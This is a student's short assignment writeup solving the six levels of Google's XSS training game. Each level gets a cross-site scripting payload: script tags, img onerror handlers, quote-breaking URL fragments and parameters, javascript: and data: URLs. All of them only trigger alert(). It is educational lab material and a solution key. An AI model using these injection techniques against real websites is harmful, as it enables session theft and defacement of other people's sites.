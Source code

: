 # Crypto II Writeup

Name: Benjamin Chen
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Benjamin Chen

## Assignment Writeup

### Part 1 (40 Pts)

Website never worked?

### Part 2 (60 Pts)

1) Input:<script>alert()</script>

2) Input:<img src = "foo" onerror=alert();>

3) Full URL: https://xss-game.appspot.com/level3/frame#1+".jpg'/> <img src ='foo' onerror=alert();>

4) Full URL: https://xss-game.appspot.com/level4/frame?timer=')%3Balert()%3Bvar foo=('

5) Full URL: https://xss-game.appspot.com/level5/frame?next=javascript:alert()

Then enter anything in the email textbox and hit next

6) Full Url: https://xss-game.appspot.com/level6/frame#data:text/plain,alert()



